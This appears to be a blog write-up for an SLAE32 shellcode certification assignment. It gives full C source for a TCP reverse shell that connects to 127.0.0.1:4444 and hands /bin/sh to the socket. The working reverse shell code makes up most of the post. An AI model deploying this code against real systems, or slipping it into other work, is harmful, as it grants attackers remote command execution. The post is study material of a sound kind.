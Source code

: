 ```yaml
---
title: SLAE32 - Assignment 2 - TCP Reverse Shell
date: 2021-03-14
tags:
- SLAE32
categories:
- SLAE Exam Assignments
- SLAE 32-bit
keywords:
    - Assembly
    - Reverse Shell
---
```


The second assigment for the SLAE32 certification asks to write a TCP Reverse Shell shellcode that connects to an address and a port and then executes a shell on successful connection. Requirement is that IP address and port number should be easily configurable.

## TCP Reverse Shell in C
Let's first of all create a TCP reverse shell in C that listens to port 4444 on localhost. This is the code:
``` c
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>

#define REMOTE_ADDR "127.0.0.1"
#define REMOTE_PORT 4444

int main (){

	// Creating File Descriptor for the Socket
	int socket_fd = socket(AF_INET, SOCK_STREAM, 0);

	// Creating sockaddr_in structure for Remote Address
	struct sockaddr_in server;
	server.sin_family = AF_INET;
    	server.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    	server.sin_port = htons(REMOTE_PORT);

	// Connecting to the Server
	int ret = connect(socket_fd, (struct sockaddr *)&server, sizeof(server));

	if (ret == 0)
	{
		// Redirect STDIN(0), STDOUT(1) and STDERR(2) on Socked_FD
		dup2(socket_fd, 0); 
		dup2(socket_fd, 1);
		dup2(socket_fd, 2);
		
		// Invoking EXECVE
		execve("/bin/sh", 0, 0);

		// exit
		return 0;
	}else{
		return ret;
	}
}
```